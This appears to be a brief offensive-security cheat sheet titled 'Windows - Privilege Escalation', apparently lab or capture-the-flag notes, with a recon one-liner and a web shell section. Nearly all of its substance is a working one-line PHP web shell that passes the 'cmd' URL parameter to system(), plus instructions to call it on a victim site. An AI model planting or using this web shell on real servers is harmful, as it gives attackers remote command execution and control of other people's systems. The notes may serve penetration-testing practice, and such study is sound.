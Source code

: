 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
- [PHP Web Shell]
    Test if PHP works
    ```<?php phpinfo(); ?>
    ```
    Command Execution
    ```php webshell
    <?php echo(system($_GET["cmd"])); ?>
    ```
    Go to http://victimsite.com/test.php?cmd=dir for command execution 
